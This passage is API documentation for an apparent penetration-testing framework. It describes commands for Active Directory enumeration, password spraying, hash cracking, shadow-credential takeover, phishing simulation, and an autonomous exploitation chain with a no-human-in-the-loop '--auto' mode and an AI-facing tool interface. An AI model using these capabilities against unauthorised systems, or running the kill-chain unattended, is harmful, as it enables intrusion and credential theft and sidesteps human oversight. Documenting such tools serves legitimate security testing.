    line (str): The command line input for the function (not used directly in the current implementation).

Returns:
    None

Example:
    To run the fuzzing script, enter the required parameters when prompted by the function.*
- `do_kerbrute` (line 796) `def do_kerbrute(self, line)` - *Executes the Kerbrute tool to enumerate user accounts against a specified target self.params['domain'] controller.

This function performs the following actions:
1. Retrieves necessary parameters such as the target URL and remote host (self.params['rhost']).
2. Determines the self.params['domain'] based on the provided URL.
3. Validates the remote host address.
4. Constructs and executes the Kerbrute command to enumerate user accounts, saving the results in the sessions/users.txt file.

Parameters:
line (str): Specify 'pass' to use credentials from 'credentials.txt' for password spraying, 'brute' to brute force using 'users.txt' and the RockYou wordlist, or leave empty for default behavior.

Returns:
None

Example:
To enumerate user accounts using Kerbrute, ensure Kerbrute is in your path,
then run this function to perform the enumeration.

Note:
- The function assumes that the Kerbrute binary (kerbrute_linux_amd64) is present in the system's PATH.
- The file sessions/users.txt should exist and contain the list of usernames to enumerate.*
- `do_davtest` (line 882) `def do_davtest(self, line)` - *Tests WebDAV server configurations using `davtest`.

This function checks if `davtest` is installed and installs it if necessary. It then runs `davtest`
to perform a WebDAV server test against a specified URL or the default URL configured in `self.params`.

:param line: The URL of the WebDAV server to test. If provided, it overrides the default URL.
            If not provided, the function uses the URL specified in `self.params['rhost']`.

:returns: None

Manual execution:
To manually test a WebDAV server, use the following command:
    davtest --url <url>

Replace `<url>` with the URL of the WebDAV server you want to test.

For example:
    davtest --url http://example.com/webdav*
- `do_evil_ssdp` (line 923) `def do_evil_ssdp(self, line)` - *Runs evil-ssdp with various options and user-selected templates.

:param line: Not used in this implementation but reserved for future use.

:returns: None*
- `do_netexec` (line 969) `def do_netexec(self, line)` - *Executes netexec with various options for network protocol operations.

This function handles the installation of netexec and allows the user to execute various network protocol operations with minimal input.
It reads credentials from a specified file and constructs the necessary commands to interact with the target system.

:param line: Command line input from the user. This input is used to determine the protocol and action to be executed.
:returns: None

The function performs the following steps:
1. Checks if netexec is installed. If not, it installs it.
2. Reads credentials from a file.
3. Constructs and executes the netexec command based on user input.
4. Enumerates available protocols and actions for each protocol, allowing the user to select them interactively.
5. Enumerates available options for each action, allowing the user to select them interactively.

Example usage:
```
do_netexec("smb target -u username -p password --shares")
```

This will execute the SMB protocol with the specified action and options.

If no specific command is provided, the function will prompt the user to select a protocol and action interactively.*
- `do_allin` (line 1222) `def do_allin(self, line)` - *Execute the AlliN.py tool with various scan modes and parameters.

This function prompts the user to choose a scan type (e.g., pscan, sfscan, bakscan),
and then asks for the necessary parameters (host, ports, project name, etc.).
Based on the user's input, it generates the corresponding command and executes it.

:param line: Not used in this implementation.
:returns: None*
- `do_windapsearch` (line 1293) `def do_windapsearch(self, line)` - *Execute the windapsearch tool to perform Active Directory Domain enumeration through LDAP queries.

This function allows the user to specify various parameters for executing different LDAP query modules
using windapsearch. It handles user input for self.params['domain'], username, password, and other options, constructs
the command, and executes it.

:param line: Not used in this implementation.
:returns: None*
- `do_ldapsearch` (line 1421) `def do_ldapsearch(self, line)` - *Executes an LDAP search against a target remote host (self.params['rhost']) and saves the results.

This function performs the following tasks:
1. Extracts the target remote host (self.params['rhost']) from the class parameters.
2. Verifies if the self.params['rhost'] is valid using a custom `check_rhost` function.
3. Retrieves the self.params['domain'] information from the parameters.
4. Ensures that the 'ldapsearch' binary is available on the system. If it's missing, the function attempts to install it using the system's package manager (`apt`).
5. Constructs the LDAP search query based on the self.params['domain'] information, splitting the self.params['domain'] into components to form the correct base DN (Distinguished Name).
6. Runs the LDAP search with the following options:
    - `-x`: Simple authentication (anonymous bind).
    - `-H`: Specifies the LDAP server URL (using the self.params['rhost']).
    - `-b`: Specifies the search base (constructed from the self.params['domain']).
    - `-s sub`: Indicates the search scope, where 'sub' performs a subtree search.
7. Saves the result of the search to a log file under the 'sessions' directory, named based on the self.params['rhost'].
8. Displays the log file content and checks for any 'lock' entries, which could indicate locked accounts or security incidents.
9. Extracts `userPrincipalName` attributes from the log, parses them, and appends the usernames (without self.params['domain']) to a users.txt file for further analysis.

This function is useful in penetration testing engagements where LDAP enumeration is part of the reconnaissance phase. It automates LDAP queries and extracts useful user information, which could assist in credential harvesting, password spraying, or other user-based attacks.*
- `do_arjun` (line 1482) `def do_arjun(self, line)` - *Executes an Arjun scan on the specified URL for parameter discovery.

This function checks if Arjun is installed on the system, installs it if necessary, and then constructs
a command to run Arjun against the provided URL with user-defined options.

Parameters:
    line (str): Input line, not currently used.*
- `do_finger_user_enum` (line 1550) `def do_finger_user_enum(self, line)` - *Executes the `finger-user-enum` tool for enumerating users on the target host.

This function checks if the `finger-user-enum` script is available locally; if not, it clones
it from GitHub. It then constructs a command to run the tool with the provided wordlist of
usernames and target host, and executes the command in the system.

Parameters:
    line (str): Input line, not currently used.

Returns:
    None: Outputs the command executed and any messages during execution.*
- `do_wpscan` (line 1596) `def do_wpscan(self, line)` - *Command wpscan: Installs and runs WPScan to perform WordPress vulnerability scanning.

This function performs the following tasks:
1. Checks if WPScan is installed.
2. Installs WPScan using gem if not already installed.
3. Prompts the user for a URL to scan.
4. Allows the user to choose additional WPScan options such as --stealthy or --enumerate.
5. Executes the WPScan command with the chosen options.

Args:
    line (str): Optional argument to specify the URL or additional WPScan options.

Returns:
    None

Example:
    wpscan --url blog.tld*
- `do_loxs` (line 1659) `def do_loxs(self, line)` - *Command loxs: Installs and runs Loxs for multi-vulnerability web application scanning.

This function performs the following tasks:
1. Checks if Loxs is already cloned in the external/.exploit directory.
2. Clones the Loxs repository if not present.
3. Installs required dependencies.
4. Prompts the user for a URL or file input, custom payload file, success criteria, and thread count.
5. Executes Loxs for scanning vulnerabilities like LFI, OR, XSS, and SQLi.
6. Displays real-time results and optionally saves vulnerable URLs.

Args:
    line (str): Optional argument for specifying the input URL or file, custom payload, and additional options.

Returns:
    None

Example:
    loxs --url target.com*
- `do_blazy` (line 1703) `def do_blazy(self, line)` - *Command blazy: Installs and runs blazy for multi-vulnerability web application scanning.

This function performs the following tasks:
1. Checks if blazy is already cloned in the external/.exploit directory.
2. Clones the blazy repository if not present.
3. Installs required dependencies.
4. Prompts the user for a URL or file input, custom payload file, success criteria, and thread count.
5. Executes blazy for Bruteforce Login.
6. Displays real-time results and optionally saves vulnerable URLs.

Args:
    line (str): Optional argument for specifying the input URL.

Returns:
    None

Example:
    python3 main.py -i target.com*
- `do_parth` (line 1752) `def do_parth(self, line)` - *Command parth: Installs and runs Parth for discovering vulnerable URLs and parameters.

This function performs the following tasks:
1. Checks if Parth is already cloned in the external/.exploit directory.
2. Clones the Parth repository if not present.
3. Installs required dependencies using pip3.
4. Prompts the user for a URL, file input, or import option and allows for custom output such as JSON or saving parameter names.
5. Executes Parth for scanning vulnerabilities like LFI, SSRF, SQLi, XSS, and open redirects.
6. Displays real-time results and optionally saves output in a file.

Args:
    line (str): Optional argument for specifying the target self.params['domain'], import file, or additional Parth options.

Returns:
    None

Example:
    parth -t example.com*
- `do_breacher` (line 1821) `def do_breacher(self, line)` - *Command breacher: Installs and runs Breacher for finding admin login pages and EAR vulnerabilities.

This function performs the following tasks:
1. Checks if Breacher is already cloned in the external/.exploit directory.
2. Clones the Breacher repository if not present.
3. Installs required dependencies.
4. Prompts the user for a target URL, file type (php, asp, html), custom paths, and thread options.
5. Executes Breacher for scanning admin login pages and potential EAR vulnerabilities.
6. Supports multi-threading and custom paths for enhanced scanning.

Args:
    line (str): Optional argument for specifying the target URL, file type, and additional Breacher options.

Returns:
    None

Example:
    breacher -u example.com --type php*
- `do_openredirex` (line 1883) `def do_openredirex(self, line)` - *Command openredirex: Clones, installs, and runs OpenRedirex for testing open redirection vulnerabilities.

This function performs the following tasks:
1. Clones the OpenRedirex repository if not already cloned.
2. Installs the required dependencies using the setup script.
3. Prompts the user for required inputs like the URL list, payloads file, keyword, and concurrency level.
4. Executes OpenRedirex to scan the provided URLs for open redirection vulnerabilities.

Args:
    line (str): Optional argument for specifying the URL list, payload file, keyword, and concurrency level.

Returns:
    None

Example:
    openredirex list_of_urls.txt payloads.txt FUZZ 50*
- `do_odat` (line 1951) `def do_odat(self, line)` - *Command odat: Runs the ODAT sidguesser module to guess Oracle SIDs on a target Oracle database.

This function performs the following tasks:
1. Ensures that ODAT is installed (checks if 'odat.py' exists).
2. Allows the user to specify the RHOST and port.
3. Runs ODAT's 'sidguesser' module with the specified parameters.

Args:
    line (str): Optional argument for specifying additional ODAT options.

Returns:
    None

Example:
    odat*
- `do_rpcmap_py` (line 2069) `def do_rpcmap_py(self, line)` - *Command rpcmap_py: Executes rpcmap.py commands to enumerate MSRPC interfaces.

This function allows the user to:
1. Run rpcmap.py with a specified string binding to discover MSRPC interfaces.
2. Filter the output using grep for specific DCOM-related interfaces.
3. Optionally run rpcmap.py with additional flags for brute-forcing opnums and adjusting the authentication level.

Args:
    line (str): Optional argument specifying the string binding or additional flags for rpcmap.py.

Returns:
    None

Example:
    rpcmap_py 'ncacn_ip_tcp:10.10.10.213'
    rpcmap_py 'ncacn_ip_tcp:10.10.10.213' -brute-opnums -auth-level 1 -opnum-max 5*
- `do_pykerbrute` (line 2112) `def do_pykerbrute(self, line)` - *Command pykerbrute: Automates the installation and execution of PyKerbrute for bruteforcing Active Directory accounts using Kerberos pre-authentication.

This function performs the following tasks:
1. Clones and installs PyKerbrute if not already installed.
2. Allows the user to choose between the EnumADUser.py and ADPwdSpray.py scripts.
3. Executes the selected script with user-defined parameters, including self.params['domain'], mode (TCP/UDP), and selected hash or password.

Args:
    line (str): Optional argument for specifying additional parameters for execution, such as self.params['domain'] controller, self.params['domain'], and attack mode.

Returns:
    None*
- `do_netview` (line 2182) `def do_netview(self, line)` - *Executes the Impacket netview tool to list network shares on a specified target.

This function performs the following actions:
1. Checks if the target host is valid.
2. If the line argument is "pass", it searches for credential files with the pattern `credentials*.txt`
and allows the user to select which file to use for executing the command.
3. If line is "hash", it searches for a hash file and prompts the user for a username, then constructs
and executes the command with the hash.
4. If line does not match "pass" or "hash", it displays an error message with usage instructions.

Parameters:
line (str): A command argument to determine the authentication mode.
            If "pass", the function searches for credential files and authenticates using the selected file.
            If "hash", it uses a hash file for authentication.
            If neither, it prints an error message with usage instructions.

Returns:
None*
- `do_rdp_check_py` (line 2246) `def do_rdp_check_py(self, line)` - *Executes the RDP check tool to verify credentials or hash-based authentication on a target system.

This function performs the following actions:
1. Validates the target IP (self.params['rhost']).
2. If the line argument is "pass", it searches for credential files with the pattern `credentials*.txt`
and prompts the user to select one to execute the RDP check.
3. If line is "hash", it searches for a hash file, prompts the user for a username, and constructs the command
using the hash for authentication.
4. If line does not match "pass" or "hash", it displays an error message with usage instructions.

Parameters:
line (str): Command argument specifying the authentication mode.
            If "pass", the function authenticates using credentials from a selected file.
            If "hash", it uses a hash file for authentication.
            If neither, it displays an error message with usage instructions.

Returns:
None*
- `do_mqtt_check_py` (line 2311) `def do_mqtt_check_py(self, line)` - *Executes the MQTT check tool to verify credentials on a target system with optional SSL.

This function performs the following actions:
1. Validates the target IP (self.params['rhost']).
2. If the line argument is "pass", it searches for credential files matching the pattern `credentials*.txt`
and prompts the user to select one to execute the MQTT check.
3. If line is "ssl", it performs the MQTT check with SSL enabled using the selected credentials.
4. If line does not match "pass" or "ssl", it displays an error message with usage instructions.

Parameters:
line (str): Command argument specifying the authentication mode.
            If "pass", the function authenticates using credentials from a selected file.
            If "ssl", it authenticates using SSL.
            If neither, it displays an error message with usage instructions.

Returns:
None*
- `do_lookupsid_py` (line 2366) `def do_lookupsid_py(self, line)` - *Executes the LookupSID tool to perform SID enumeration on a target system.

This function performs the following actions:
1. Validates the target IP (self.params['rhost']).
2. If the line argument is "basic", it searches for credential files with the pattern `credentials*.txt`
and prompts the user to select one to execute the SID lookup.
3. If line is "dc-target", it performs the SID lookup specifying self.params['domain'] controller and target IPs,
using the selected credentials.
4. If line does not match "basic" or "dc-target", it displays an error message with usage instructions.

Parameters:
line (str): Command argument specifying the lookup mode.
            If "basic", the function performs a standard SID lookup.
            If "dc-target", it includes `-dc-ip` and `-target-ip` arguments.
            If "nopass", We run lookupsid.py , using an arbitrary username prepended to the target's IP address
            If neither, it displays an error message with usage instructions.

Returns:
None*
- `do_lookupsid` (line 2439) `def do_lookupsid(self, line)` - *Executes the Impacket lookupsid tool to enumerate SIDs on a target system.

This function performs the following actions:
1. Validates the target IP (or hostname) specified in the line argument.
2. If the line argument is "pass", it searches for credential files with the pattern credentials*.txt
and prompts the user to select one to execute the lookupsid command.
3. If line is "hash", it prompts the user for a username and constructs the command using the hash for authentication.
4. If line does not match "pass" or "hash", it displays an error message with usage instructions.

Parameters:
line (str): Command argument specifying the authentication mode.
            If "pass", the function authenticates using credentials from a selected file.
            If "hash", it uses a hash file for authentication.
            If neither, it displays an error message with usage instructions.

Returns:
None*
- `do_certipy_ad` (line 2501) `def do_certipy_ad(self, line)` - *Run certipy-ad against Active Directory Certificate Services.

Supports shadow, vuln, find, account, and auth subcommands.
Requires self.params['rhost'], self.params['domain'], and credentials in payload.json.

Args:
    line (str): Subcommand to run (shadow | vuln | find | account | auth).

Returns:
    None*
- `do_certipy` (line 2565) `def do_certipy(self, line)` - *Executes the Certipy tool to interact with Active Directory Certificate Services.

This function performs the following actions:
1. Validates the target IP or hostname specified in the line argument.
2. If line is "find", it executes the certipy find command to enumerate AD CS.
3. If line is "shadow", it prompts for an account and executes the certipy shadow command.
4. If line is "req", it prompts for user details and executes the certipy req command to request a certificate.
5. If line is "auth", it prompts for PFX details and executes the certipy auth command for authentication.
6. If line is "update", it prompts for user details and executes the certipy account update command.
7. If line does not match any valid actions, it displays an error message with usage instructions.

Parameters:
line (str): Command argument specifying the action mode.
            If "find", it enumerates AD CS.
            If "shadow", it abuses shadow credentials for account takeover.
            If "req", it requests a certificate.
            If "auth", it authenticates using a PFX file.
            If "update", it updates user information.
            If none of these, it displays an error message with usage instructions.

Returns:
None*
- `do_sawks` (line 2659) `def do_sawks(self, line)` - *Executes the Swaks (Swiss Army Knife for SMTP) tool to send test emails for phishing simulations.

This function performs the following actions:
1. Checks if Swaks is available; if not, it clones the repository to the appropriate directory.
2. Constructs the Swaks command with the specified 'to' and 'from' emails, server, and message body.
3. Runs the command using Swaks to simulate email delivery.

Parameters:
line (str): Command argument specifying additional options or the message body.
            - If not provided, defaults to a basic test message.

Returns:
None*
- `do_ad_ldap_enum` (line 2696) `def do_ad_ldap_enum(self, line)` - *Executes ad-ldap-enum to enumerate Active Directory objects (users, groups, computers)
through LDAP, collecting extended information on group memberships and additional AD details.

This function enables the enumeration of Active Directory users, groups, and computers
by executing LDAP queries on a specified self.params['domain'] controller. The command constructed allows
password or Pass-the-Hash authentication, supports SSL/TLS, and IPv4/IPv6 connections,
and outputs data into CSV files detailing self.params['domain'] group memberships and extended user/computer
information.

Functionalities include:
1. Checking for credential availability and prompting for them if not found.
2. Constructing an LDAP enumeration command with customizable authentication and server details.
3. Executing `ad-ldap-enum.py` to output detailed information in CSV format.

The output files are saved in the current working directory with a prepend if specified.

Example command the function can build:
- `python3 ad-ldap-enum.py -d scrm.local -l 10.10.11.168 -u ksimpson -p ksimpson -v`

Usage:
    - Run `dp_ad_ldap_enum` to initiate AD object enumeration using ad-ldap-enum.

:param line: String containing initial command-line arguments or options.*
- `do_net_rpc_addmem` (line 2750) `def do_net_rpc_addmem(self, line)` - *Executes the net rpc group addmem command to add a user to a specified group in Active Directory.

This function performs the following actions:
1. Prompts the user for necessary parameters if not provided.
2. Executes the command to add a user to a specified group in Active Directory.

The command accepts the following parameters:
- Group name to which the user will be added.
- User to be added to the group.
- Domain credentials for authentication.
- DC IP address for the self.params['domain'] controller.

Parameters:
line (str): Command argument specifying the user and group options.
            Expected format:
                - "GROUP_NAME" for the group name
                - "$USER" for the user to add
                - Required flags for authentication and connection

Returns:
None*
- `do_pre2k` (line 2796) `def do_pre2k(self, line)` - *Executes the pre2k tool to query the self.params['domain'] for pre-Windows 2000 machine accounts or to pass a list of hostnames to test authentication.

This function:
    - Installs pre2k if not already installed.
    - Executes the pre2k command with the provided parameters.
    - Displays the result in the terminal.

Behavior:
    - Requires `python3`, `python3-pip`, and `git` to be installed.
    - Uses parameters from `self.params` for self.params['domain'], username, password, and target.

Usage:
    pre2k auth -u <username> -p <password> -d <self.params['domain']> -dc-ip <dc_ip>
    pre2k unauth -d <self.params['domain']> -dc-ip <dc_ip> -inputfile <inputfile>*
- `do_hound` (line 2889) `def do_hound(self, line)` - *Executes the hound tool for Hound is a simple and light tool for information gathering and capture exact GPS coordinates

This function:
    - Installs hound if not already installed.
    - Executes the hound command with the provided parameters.
    - Displays the result in the terminal.

Behavior:
    - Requires `git` and `php` to be installed.
    - Uses a one-liner installation method for simplicity.

Usage:
    hound*

#### `security.py`
**Path:** `cli/commands/security.py`
**File Doc:** *OPSEC and security commands — risk scoring, credential sealing, rotation.  Integrates modules/opsec_scorer.py, core/credential_vault.py, and modules/hash_cracker.py into the CLI.  Provides commands: opsec <command>        — Score OPSEC risk for a command seal_credentials       — Encrypt sensitive payload values at rest rotate_aes             — Generate new AES key and re-encrypt crack_hashes <file>    — Crack hashes from secretsdump output*

**Classes:**
- `SecurityCommandSet` (line 20) `class SecurityCommandSet(LazyOwnCommandSet)` - *OPSEC scoring, credential vault, and hash cracking commands.*

**Methods:**
- `do_opsec` (line 26) `def do_opsec(self, line)` - *Score OPSEC risk for a LazyOwn command before execution.

Usage: opsec <command>

Examples:
    opsec secretsdump
    opsec psexec
    opsec lazynmap*
- `do_seal_credentials` (line 106) `def do_seal_credentials(self, _line)` - *Encrypt all sensitive values in payload.json using AES-256-GCM.

Usage: seal_credentials

After sealing, payload.json will contain encrypted values for passwords,
API keys, and other secrets. They are transparently decrypted at runtime.*
- `do_rotate_aes` (line 127) `def do_rotate_aes(self, _line)` - *Generate a new AES key and re-encrypt all sealed credentials.

Usage: rotate_aes

Use this when you need to rotate the encryption key for operational security.
All existing sealed values are decrypted with the old key and re-encrypted
with a fresh key.*
- `do_unseal_credentials` (line 150) `def do_unseal_credentials(self, _line)` - *Decrypt sealed credential values in payload.json for inspection.

Usage: unseal_credentials

Warning: this writes plaintext credentials back to payload.json.
Use seal_credentials to re-encrypt them.*
- `do_crack_hashes` (line 170) `def do_crack_hashes(self, line)` - *Crack password hashes from a file using John the Ripper or Hashcat.

Usage: crack_hashes <filepath> [--wordlist <path>]

Parses hashes from the file (e.g., secretsdump output), identifies hash types,
and runs John or Hashcat. Cracked passwords are imported into the DB.

Examples:
    crack_hashes sessions/hashes_10.10.11.5.txt
    crack_hashes sessions/ntds.dit --wordlist /usr/share/wordlists/rockyou.txt*
- `complete_opsec` (line 267) `def complete_opsec(self, text, line, begidx, endidx)`
- `complete_crack_hashes` (line 276) `def complete_crack_hashes(self, text, line, begidx, endidx)`

#### `session_ops.py`
**Path:** `cli/commands/session_ops.py`
**File Doc:** *Session and campaign operations extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.*

**Classes:**
- `SessionOpsCommandSet` (line 72) `class SessionOpsCommandSet(LazyOwnCommandSet)` - *Session and campaign operations.*

**Functions:**
- `_flag_value` (line 924) `def _flag_value(flag_name)`
- `_flag_value` (line 1036) `def _flag_value(flag_name)`

**Methods:**
- `do_note` (line 79) `def do_note(self, line)` - *Capture a quick operator note attached to the current target and phase.

Notes land in sessions/notes.jsonl with timestamp, self.params['rhost'], and phase
so they survive session restarts and show up in reports.

Usage:
    ``note``                    — list recent notes for current self.params['rhost']
    ``note <text>``             — save a note for current self.params['rhost']/phase
    ``note -a``                 — list all notes (all targets)
    ``note Found admin creds in /etc/shadow``
    ``note SMB signing disabled on DC01``*
- `do_l00t` (line 104) `def do_l00t(self, line)` - *Unified loot: show, search, reuse, graph, and mark credentials.

Aggregates every credentials*.txt and hash*.txt in sessions/ into one
deduplicated view. Clelazyt passwords show green, hashes red.

Subcommands:
    ``l00t``                              — show all captured loot
    ``l00t search <user|host|hash>``      — search loot for a substring
    ``l00t reuse``                        — rank creds to try on the current rhost
    ``l00t graph``                        — credential graph: harvested / worked / rejected
    ``l00t mark <user|secret> worked|rejected [host]``
                                          — record an auth outcome (defaults host to rhost)

Examples:
    ``l00t search admin``
    ``l00t reuse``
    ``l00t mark administrator worked``
    ``l00t mark svc_sql rejected 10.10.11.5``*
- `do_loot` (line 153) `def do_loot(self, line)` - *Alias for ``l00t`` — unified loot (show/search/reuse/graph/mark).

See ``help l00t`` for the full subcommand reference.*
- `do_pivot` (line 161) `def do_pivot(self, line)` - *Record a newly discovered pivot target or show the pivot chain.

When you compromise a host and discover a new reachable network/IP,
record it here. The pivot chain is stored in sessions/pivots.jsonl
and survives session restarts.

Usage:
    ``pivot``                        — show full pivot chain
    ``pivot <new-ip>``               — record pivot via current rhost
    ``pivot <new-ip> <note>``        — record with a free-form note
    ``pivot 10.10.10.50``
    ``pivot 10.10.10.50 SMB open, admin share accessible``*
- `do_tasks` (line 186) `def do_tasks(self, line)` - *View and manage the task queue from sessions/tasks.json.

Tasks are created automatically by world_model_watcher and the
autonomous daemon, and can also be added manually. Each task has
an id, title, status (New/Started/Done/Blocked), and operator.

Usage:
    ``tasks``             — show active tasks (New + Started)
    ``tasks --all``       — show all tasks including Done
    ``tasks add <text>``  — create a new task
    ``tasks done <id>``   — mark task as Done
    ``tasks start <id>``  — mark task as Started*
- `do_scans` (line 219) `def do_scans(self, line)` - *List nmap scan files in sessions/ with age, size, and open ports.

Without arguments shows all scan files. With an IP filters to scans
for that target only.

Usage:
    ``scans``              — all scan files
    ``scans 10.10.11.5``   — scans for that host only
    ``scans rhost``        — shortcut for current rhost*
- `do_sitrep` (line 236) `def do_sitrep(self, line)` - *Print a unified operational situation report.

Aggregates in one view: target/attacker/domain, current phase and OS,
nmap scans found for the active target, captured credentials and
hashes, tasks backlog (New/Started/Done), operator notes, pivot chain,
and world model host/vuln/cred counts.

Run this at the start of a shift, after pivoting to a new target, or
whenever you need a quick 'where are we?' during the engagement.

Usage:
    ``sitrep``*
- `do_assign` (line 253) `def do_assign(self, line)` - *assign a parameter value, persist to payload.json and refresh aliases.

The mutation is delegated to :func:`cli.assign.apply_assign` which
writes ``payload.json`` atomically through :func:`core.config.save_payload`
when the parameter is known. After a successful update, aliases are
re-rendered so commands like ``backdoor`` or ``coerce_plus`` immediately
reflect the new value without a shell restart.

:param line: '<parameter> <value>'.
:type line: str
:return: None*
- `do_tenant` (line 306) `def do_tenant(self, line)` - *Manage multi-tenancy: list, switch, or create engagement tenants.

Each tenant has its own payload profile and session directory,
providing isolated environments for parallel engagements.

Usage:
    ``tenant``                           list all tenants
    ``tenant switch <id>``               activate a tenant
    ``tenant create <name>``             create a new tenant from current payload
    ``tenant info``                      show active tenant details

Tenant payloads are stored in ``payloads/<id>.json`` and sessions
in ``sessions/<id>/``. The default tenant always exists.*
- `do_scope` (line 379) `def do_scope(self, line)` - *Manage the authorized engagement scope and the scope-guard posture.

The scope guard checks every offensive command against this list before
it runs. While the scope is empty the guard is dormant, so defining a
scope is opt-in and never disrupts an existing campaign. Entries may be
CIDR networks, bare IP addresses or hostnames (a leading ``*.`` matches
subdomains).

Usage:
    ``scope``                          show the scope and the mode
    ``scope add <cidr|ip|host>``       authorize an entry
    ``scope rm <cidr|ip|host>``        remove an entry
    ``scope clear``                    remove every entry
    ``scope mode <off|warn|enforce>``  set the enforcement posture

Modes:
    ``off``      guard disabled.
    ``warn``     out-of-scope offensive commands run but warn (default).
    ``enforce``  out-of-scope offensive commands are blocked pending
                 interactive confirmation.*
- `do_show` (line 445) `def do_show(self, line)` - *Show params, modules, payloads, or active module options.

Usage:
    show                       — show all params (default)
    show exploits              — list all exploit modules
    show auxiliary             — list auxiliary modules
    show scanners              — list scanner modules
    show post                  — list post-exploitation modules
    show payloads              — list registered payloads
    show options               — show active module options
    show modules               — list all modules
    show all                   — list all modules by type*
- `do_list` (line 521) `def do_list(self, line)` - *Lists all available scripts in the modules directory.

This method prints a list of available scripts in a formatted manner, arranging
them into columns. It shows each script with sufficient spacing for readability.

:param line: This parameter is not used in the method.
:type line: str
:return: None*
- `do_run` (line 550) `def do_run(self, line)` - *Runs a specific LazyOwn script or active module.

If a module is active (via ``use <module>``), ``run`` executes it.
Otherwise it runs a script from the toolkit by name.

:param line: The command line input containing the script name.
:type line: str
:return: None*
- `do_payload` (line 589) `def do_payload(self, line)` - *Load parameters from a specified payload JSON file.

This function loads parameters from a JSON file specified by the `line` argument and updates the instance's `params` dictionary with the values from the file. If the file does not exist or contains invalid JSON, it will print an appropriate error message.

Usage:
    payload <filename>

:param line: The name of the JSON file to load.
:type line: str

:returns: None

Manual execution:
1. Open and read the specified JSON file.
2. Update the `params` dictionary with values from the JSON file.
3. Print a success message if the parameters were successfully loaded.
4. Handle `FileNotFoundError` if the file does not exist.
5. Handle `JSONDecodeError` if there is an error decoding the JSON file.

Dependencies:
- `json` module for reading and parsing the JSON file.

Example:
    To execute the function, call `payload payload_10.10.10.10.json`.

Note:
    - Ensure that the specified JSON file exists in the current directory and is properly formatted.
    - The confirmation message includes color formatting for better visibility.*
- `do_next` (line 640) `def do_next(self, line)` - *Show next-step recommendations or execute the active autosuggest.

Two modes share the same verb:

* ``next <command> [N]`` — show ordered chain recommendations for
  ``<command>`` (static kill-chain + nmap-discovered services +
  addon/tool triggers), capped at ``N`` (default 5). Mirrors the
  MCP tool ``lazyown_command_next`` so CLI and AI see the same
  data. This is the chain's complement to ``prev``.
* ``next`` (no args) — pop and execute the active autosuggest
  accelerator (the dim ``press '.' to run: <cmd>`` line). The
  accelerator alias ``.`` keeps working unchanged.

Args:
    line: Empty for the accelerator mode, or ``<verb> [limit]``
        for the chain mode.

Returns:
    None.*
- `do_frontier` (line 684) `def do_frontier(self, line)` - *Preview the planner intents the autonomous loops would run next.

Usage:
    frontier
    frontier 192.168.1.10

Runs the same ``Planner + Frontier`` refill the engage daemon and
``auto_loop`` consume: fact-ranked MITRE techniques for the target,
minus tried and creds-gated ones. Nothing is executed; this is the
read-only view of the loop's next direction.

Args:
    line: Optional target IP. Defaults to the ``rhost`` payload value.

Returns:
    None.*
- `do_traces` (line 728) `def do_traces(self, line)` - *Show recent autonomous step traces with evidence and traffic ids.

Usage:
    traces
    traces lazynmap
    traces --limit 20

Tails the autonomous step records both loops settle — first
``sessions/worker_traces.jsonl`` (auto_loop, with evidence hash,
traffic exchange and proven goals), falling back to
``sessions/intents.jsonl`` (engage daemon ledger: command, phase,
state, reason). Optional substring filters by command.

Args:
    line: Optional query substring and ``--limit N``.

Returns:
    None.*
- `do_chainmode` (line 809) `def do_chainmode(self, line)` - *Toggle interactive kill-chain chaining after every command.

Usage:
    chainmode on          Start the chain flow.
    chainmode off         Stop the chain flow.
    chainmode status      Show whether chaining is active.

When on, every executed command is followed by a world-model-driven
prompt listing the next kill-chain step(s). Press Enter to run the
top suggestion, type ``1..N`` to pick a ranked alternative, type
any command to override the suggestion and keep chaining from it,
``skip`` to continue manually, or ``off`` to exit. The state is
persisted to ``sessions/chain_mode.json``.

Args:
    line: Whitespace-stripped sub-command (on/off/status).

Returns:
    None.*
- `do_engage` (line 860) `def do_engage(self, line)` - *Drive a single target through the full kill-chain in one command.

Usage:
    engage <target>                  Run synchronously on the target IP
    engage <target> --auto           Full auto mode: no human in the loop
    engage <target> --background     Detach into a background worker
    engage <target> --max-switches N Set per-step fallback retry limit
    engage --status                  Tail the engagement log + show pending approvals
    engage --pending                 List approval requests awaiting an operator
    engage --approve <id> [--operator name]
    engage --deny <id>    [--operator name]

The orchestrator runs ping/OS detect -> nmap -> auto_populate -> enum
-> exploit-search -> initial-access against the target. Each phase
consults the ApprovalGate when ``auto_approve`` is false in
``payload.json``; gated phases pause for an operator decision before
executing. Failures auto-switch to the next bridge-catalog
alternative. Every action is narrated to ``sessions/engagement.log``
and broadcast through ``modules.collab_bp`` so connected teammates
see the kill-chain in real time.

With ``--auto`` the engagement runs with no human in the loop. The
ApprovalGate is replaced by a ``ScopeBoundAutoGate`` that never
prompts: it approves every step whose target is inside the authorized
``scope`` (or when the scope guard is dormant) and denies any
out-of-scope target while ``scope_enforcement`` is ``enforce`` — the
single fail-closed boundary unattended autonomy keeps. When the
kill-chain finishes a client-ready report is written to ``sessions/``.

:param line: Target IP plus optional flags.
:type line: str
:return: None*
- `do_pipeline` (line 987) `def do_pipeline(self, line)` - *Declarative composition layer: run a YAML pipeline of LazyOwn commands.

Usage:
    pipeline list                          List every YAML pipeline in pipelines/
    pipeline validate <name>               Parse and check a pipeline schema
    pipeline run <name>                    Execute the pipeline synchronously
    pipeline run <name> --background       Detach into a worker thread
    pipeline run <name> --target <ip>      Override payload.rhost for this run
    pipeline status                        Show the N most recent runs (summary)
    pipeline show <name>                   Print the validated step list

Pipelines live in pipelines/*.yaml. They compose existing LazyOwn
commands into ordered, conditional, recoverable plans. Each run is
persisted under sessions/pipelines/<name>__<run-id>/ with the
frozen plan, per-step JSON records, and a summary. Live narration
is broadcast through the same fabric used by ``engage``.

:param line: Subcommand plus optional positional / flag arguments.
:type line: str
:return: None*
- `do_lazyscript` (line 1078) `def do_lazyscript(self, line)` - *Executes commands defined in a lazyscript file.

This function reads a script file containing commands to be executed
sequentially. Each command is executed using the onecmd method of the
cmd.Cmd class. The script file should be located in the 'lazyscripts'
directory relative to the current working directory.

Args:
    line (str): The name of the script file to execute (e.g., 'lazyscript.ls').

Example:
    do_lazyscript('example_script.ls')
    This would execute all commands listed in 'lazyscripts/example_script.ls'.*
- `do_hunt` (line 1110) `def do_hunt(self, line)` - *Run an autonomous exploitation chain against a target.

Profiles the target's attack surface, ranks exploit candidates by
confidence, and executes them in order until a shell is obtained or
the exploit limit is reached. Adapts strategy based on results.

